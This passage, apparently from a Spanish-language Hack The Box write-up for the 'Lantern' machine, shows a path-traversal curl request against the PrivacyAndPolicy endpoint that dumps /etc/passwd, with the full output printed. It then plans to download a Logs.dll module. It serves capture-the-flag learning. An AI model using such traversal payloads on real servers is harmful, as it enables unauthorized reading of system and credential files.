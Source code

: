 La ruta sería la siguiente:
`/blabla/blalblab/blalbaba/../../../../../../../etc/passwd`

```shell
curl 'http://lantern.htb/PrivacyAndPolicy?lang=.&ext=/../../../../etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www/sites:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
tomas:x:1000:1000:tomas:/home/tomas:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
_laurel:x:998:998::/var/log/laurel:/bin/false
```

Ahora recordemos que había una BBDD SQLite3 llamada `Data.sql`

Después de un rato esto no sirvió de nada.

En el panel de administración vemos que SI existe un módulo `Logs.dll`

Podríamos intentar descargarnos este DLL a ver como se ve.